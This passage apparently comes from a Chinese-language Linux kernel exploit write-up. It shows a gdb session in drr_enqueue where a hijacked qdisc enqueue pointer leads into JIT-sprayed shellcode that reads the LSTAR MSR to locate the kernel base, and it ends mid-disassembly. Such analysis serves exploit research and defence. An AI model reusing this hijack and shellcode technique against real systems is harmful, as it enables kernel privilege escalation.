   ‍

  在 drr\_enqueue 中下断点打印 cl->qdisc->enqueue 处的指令：

```bash
(gdb) list
343                             qdisc_qstats_drop(sch);
344                     __qdisc_drop(skb, to_free);
345                     return err;
346             }
347
348             first = !cl->qdisc->q.qlen;
349             err = qdisc_enqueue(skb, cl->qdisc, to_free);
350             if (unlikely(err != NET_XMIT_SUCCESS)) {
351                     if (net_xmit_drop_count(err)) {
352                             cl->qstats.drops++;
(gdb) p cl
$3 = (struct drr_class *) 0xffff88813720ba00
(gdb) p cl->qdisc
$4 = (struct Qdisc *) 0xfffffe000003df58
(gdb) p cl->qdisc->enqueue
$6 = (int (*)(struct sk_buff *, struct Qdisc *, struct sk_buff **)) 0xffffffffcc000800
(gdb) x/4i 0xffffffffcc000800
   0xffffffffcc000800:  nop
   0xffffffffcc000801:  nop
   0xffffffffcc000802:  nop
   0xffffffffcc000803:  mov    bl,0xb8
    .......................
   .......................
   0xffffffffcc001e15:  mov    bl,0xb8
   0xffffffffcc001e17:  nop
   0xffffffffcc001e18:  nop
   0xffffffffcc001e19:  nop
   0xffffffffcc001e1a:  mov    bl,0xb8
   0xffffffffcc001e1c:  nop
   0xffffffffcc001e1d:  nop
   0xffffffffcc001e1e:  nop
   0xffffffffcc001e1f:  mov    bl,0xb8   ---> 真实 shellcode 部分
   0xffffffffcc001e21:  xor    ecx,ecx
   0xffffffffcc001e23:  nop
   0xffffffffcc001e24:  cmp    al,0xb8
   0xffffffffcc001e26:  xor    edx,edx
   0xffffffffcc001e28:  nop
   0xffffffffcc001e29:  cmp    al,0xb8
   0xffffffffcc001e2b:  mov    cl,0xc0
   0xffffffffcc001e2d:  nop
   0xffffffffcc001e2e:  cmp    al,0xb8
   0xffffffffcc001e30:  shl    ecx,0x18
   0xffffffffcc001e33:  cmp    al,0xb8
   0xffffffffcc001e35:  mov    cl,0x82
   0xffffffffcc001e37:  nop
   0xffffffffcc001e38:  cmp    al,0xb8
   0xffffffffcc001e3a:  rdmsr  
   0xffffffffcc001e3c:  nop
   0xffffffffcc001e3d:  cmp    al,0xb8
   0xffffffffcc001e3f:  xor    ecx,ecx
   0xffffffffcc001e41:  nop
   0xffffffffcc001e42:  cmp    al,0xb8
   0xffffffffcc001e44:  mov    cl,0x20
   0xffffffffcc001e46:  nop
   0xffffffffcc001e47:  cmp    al,0xb8
   0xffffffffcc001e49:  shl    rdx,cl
   0xffffffffcc001e4c:  cmp    al,0xb8
   0xffffffffcc001e4e:  add    rdx,rax
   0xffffffffcc001e51:  cmp    al,0xb8
```